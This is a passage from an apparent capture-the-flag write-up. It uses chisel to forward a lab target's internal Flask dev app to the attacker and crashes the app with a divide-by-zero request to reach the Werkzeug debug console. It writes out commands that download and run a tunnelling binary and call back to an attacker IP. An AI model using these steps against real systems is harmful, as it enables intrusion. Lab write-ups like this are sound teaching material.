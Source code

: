That script checks if `/var/www/app/app.py` is running, and if not, kills every owned python3 process and restarts the app. Since the cron deamon is running, it's pretty safe to assume that there is cronjob running this script at a regular interval (and since the challmaker is not a monster, it's running every minute).

There is subtility to note here. As we saw in the previous challenge, flaskdev is not the best developer there is. His mistake in this script was to check for every instance of the app running, regardless of the user who launched it, and to make a strict comparison to 2. This means that if we run the app with our current user, the script will find 3 lines in the output of `ps -aux`, and will kill it's own app, only to restart it moments later.

After taking a look at `/var/www/app/app.py`, we can see that the default running port is 5000, and that debugging is active. Let's forward the app to our attacking machine whith chisel.


Attacking machine:

```plain
./chisel server -p 8888 -reverse
```

Target:

```plain
curl -L -o /tmp/chisel.gz https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
gunzip /tmp/chisel.gz
chmod +x /tmp/chisel
/tmp/chisel client 172.17.0.1:8888 R:5000:localhost:5000&
```

In this example 172.17.0.1 is the IP of my attacking machine.

We're now able to access the internal dev app at http://localhost:5000.

The previous exploit seems to have been fixed, no ssti seems to work anymore.

Howerver, we know have access to the source code of the app.

A short anlysis of the flask app reveals a way to crash it.

```python
def divide(a, b):
    if b < 0:
        return "Error: Division by zero"
    return a / b
```

Indeed, there is yet another programming error. The script doesn't check if `b` is 0 but if it's smaller. A request like this one should crash the app and reveal the Flask console: http://localhost:5000/?op=divide&n1=1&n2=0.

However, the console is procted by a pin. This ressource explains how pins are generated, and how it's possible to craft one, when provided access to the right files: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug

Trying blindly the method described on hacktricks won't work. Indeed, flaskdev modified the function that generates the pin. Let's take a look at it: `/usr/local/lib/python3.10/dist-packages/werkzeug/debug/__init__.py`
